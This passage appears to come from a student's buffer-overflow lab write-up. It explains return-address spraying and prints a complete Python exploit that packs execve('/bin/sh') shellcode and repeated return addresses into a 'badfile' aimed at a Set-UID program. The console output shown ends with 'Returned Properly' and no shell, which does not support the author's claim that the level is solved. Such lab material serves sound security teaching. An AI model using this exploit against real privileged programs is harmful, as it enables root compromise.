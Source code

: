 The *spraying* approach puts all the possible locations of return address into the <code>badfile</code>, instead of one location. Since we know that the range of the buffer size is from $100$ to $200$ bytes, the actual distance between the return address field and the beginning of the buffer will be at most $200$ plus some small value; I use $220$ here. If the first $220$ bytes of the buffer (from <code>0xffffcd20</code> to <code>0xffffcd20 + 220</code>) are all sprayed with the return address, it can be assured that one of them will overwrite the actual return address field.

The modified <code>exploit.py</code> program is presented below:

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\x31\xc0"
  "\x50"
  "\x68""//sh"
  "\x68""/bin"
  "\x89\xe3"
  "\x50"
  "\x53"
  "\x89\xe1"
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0xffffcd24 + 220
L = 4
addr = (ret).to_bytes(L, byteorder='little')
content[0 : 219] = addr * 55

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Just as expected, level 2 is solved:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L2
Input size: 517
==== Returned Properly ====
```

## Task 5: Launching Attack on $64$-bit Program (Level 3)


[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.